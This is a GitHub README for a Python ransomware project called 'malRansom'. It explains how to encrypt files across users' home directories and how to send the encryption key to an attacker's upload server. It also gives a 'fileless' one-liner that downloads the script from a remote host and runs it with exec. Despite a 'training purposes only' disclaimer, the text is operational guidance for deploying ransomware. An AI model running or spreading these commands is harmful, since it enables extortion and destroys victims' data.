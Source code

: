 # malRansom
Python code that encrypts files in a user's home or users' /home directory.
# Description
First, I would like to say this is for training purposes only and not to be used in any nefarious way. Definitely, 3rawm05nar.py is not a real 
sophisticated piece of code. The encryption/decryption files have only been tested on Redhat 9, Ubuntu 22.04, and Windows 11. Windows takes longer to run the full script and requires that python3 is installed to run. On Redhat, 3rawm05nar.py may have to be ran twice due to missing packages.
# Requirements
There are different ways to conjure up an upload server, but recommend installing the module "uploadserver" for python3. It is easy to use and allows you to
upload your key to your attack machine. It highly recommended that you are able to upload files to python3 server before running script. If you do not want to try this, use upload.py as an alternative.
# Remember
IMPORTANT: Read the comments at the top of the python script before use. Update the Url for the uploading of the key and include port too. Just an idea... the key is generated at execution, but could be downloaded and passed as a string to eliminate the liability of the uploadserver. The code would have to be refactored at that point and a key would have to be generated prior. Windows will only affect the current user's home directory. Linux is ran with sudo and affects all users in /home. Use reveal.py for decryption.
# Windows
python3 .\3raw05nar.py
# Linux
sudo python3 3raw05nar.py
# Python Upload Server
pip3 install uploadserver
Your machine - Example: python3 -m uploadserver 44444
# Fileless Approach
python3 -c ("""from urllib.request import urlopen;url = 'http://< YOUR IP >/< DIRECTORY >/3rawm05nar.py';outtie = urlopen(url).read();getit = outtie.decode('utf-8');exec(outtie)""")
# Additional Resources
NetworkChuck

https://www.youtube.com/watch?v=UtMMjXOlRQc&t=609s

HTTP/HTTPS python upload server

https://pypi.org/project/uploadserver/

Python simplehttpserver

https://stackoverflow.com/questions/39788591/python-simplehttpserver-to-receive-files

